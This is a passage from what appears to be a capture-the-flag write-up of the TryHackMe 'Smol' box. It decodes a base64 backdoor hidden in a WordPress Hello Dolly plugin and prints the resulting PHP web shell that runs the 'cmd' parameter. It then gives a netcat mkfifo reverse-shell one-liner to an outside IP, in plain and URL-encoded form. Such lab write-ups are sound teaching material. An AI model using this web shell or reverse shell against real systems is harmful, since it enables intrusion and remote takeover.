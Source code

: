 It has a function named Hello dolly which contains a base64 encoded string.

Decoding this string gives us this.

```bash
echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d
```

![image.png](/assets/images/Smol_THM/image%2016.png)

Further deobfuscating it reveals that its calling the cmd parameter.

```php
if (isset($_GET["cmd"])) { 
    system($_GET["cmd"]); 
}
```

We can trigger this cmd parameter in the /wp-admin/ page since the lyrics are displayed on the dashboard.

![image.png](/assets/images/Smol_THM/image%2017.png)

We can see **www-data,** confirming that we have code execution.

Lets make a bash reverse shell and get a shell on the box.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.98.235 9999 >/tmp/f
# URL ENCODING IT
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.14.98.235%209999%20%3E%2Ftmp%2Ff
```
